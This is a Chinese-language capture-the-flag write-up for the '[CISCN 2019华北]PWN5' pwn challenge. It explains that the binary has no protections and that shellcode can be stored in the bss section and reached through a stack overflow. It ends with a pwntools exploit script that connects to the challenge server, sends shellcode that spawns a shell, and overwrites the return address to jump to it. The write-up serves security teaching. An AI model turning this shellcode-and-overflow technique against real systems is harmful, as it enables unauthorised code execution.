



# [CISCN 2019华北]PWN5

这里是一个nss中的题目我们查看保护和ida





这里我们查看到他的保护什么都没有开并且知道在第一次读入的时候可以读入0x64大小的一个数据因此在这里我们就可以编写一个shellcode而由于读入的长度够大因此我们可以使用shellcode的工具来进行一个生成

并且我们查看name的位置



从这里可以知道到shellcode读取的地方为一个bss段因此我们要进行一个跳转使得在stack中运行着个程序因此我们exp为

```python
from pwn import *

# io =process("/home/fofa/pwn5")
elf = ELF("/home/fofa/pwn5")
io = remote("node4.anna.nssctf.cn",28246)
context(os="linux",arch="amd64",log_level="debug")
io.recvuntil(b"name")
shellcode = asm(shellcraft.sh())
io.send(shellcode)
io.recvuntil(b"me?")
payload = cyclic(0x28)+p64(0x0601080)
io.sendline(payload)
io.interactive()

```

